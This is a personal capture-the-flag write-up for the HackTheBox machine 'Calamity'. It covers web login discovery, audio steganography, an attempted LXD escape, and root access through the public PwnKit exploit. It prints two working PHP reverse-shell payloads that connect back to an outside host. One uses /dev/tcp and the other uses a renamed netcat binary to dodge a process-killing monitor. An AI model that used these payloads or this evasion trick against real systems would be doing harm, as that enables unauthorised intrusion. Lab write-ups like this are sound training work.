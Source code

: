 ```yaml
---
title: "HackTheBox - Calamity (More Steganography!)"
categories:
  - Personal
  - posts
---
```

Calamity is another older HackTheBox machine that doesn't necessarily stand the test of time, as the intended binary exploitation privilege escalation is bypassed with PwnKit.

# User
Got a login to admin.php by view source and scrolling to the right

this works but the shell instantly dies

`<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.2/443 0>&1'"); ?>`

By reading /home/xalvas/intrusions we can infer that nc, sh, and python processes are being killed, so we can just move the nc binary to /dev/shm and rename it.

`<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|/dev/shm/sneed 10.10.16.2 4444 >/tmp/f"); ?>`  works!

We exfiltrate the audio files, two of them are rickrolls, but don’t have the same md5 or audio waves

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/2798169a-52a4-43bc-94fb-500f8d9c50f0/04e17315-5e5e-44a6-9329-14201eb16550/image.png)

import both of them into audacity, go to effects, and invert.

`18547936..*`  works to ssh into xalvas!

# Root

We have the lxd group.

https://reboare.github.io/lxd/lxd-escape.html 

Tried this but it didn’t work, needed internet. Also tried the base64 workaround from 0xdfs tabby writeup but the i686 architecture wasn’t supported on this box.

`git clone https://github.com/saghul/lxd-alpine-builder`

`./build-alpine -a i686`

This builds a .tar.gz file of Alpine, so I transfer it over with nc.

After hours of searching, I literally could not  find or generate a i686 alpine file so I pwnkitted it but the general concept remains and LXD escapes are common through this method. I used this POC. https://github.com/arthepsy/CVE-2021-4034
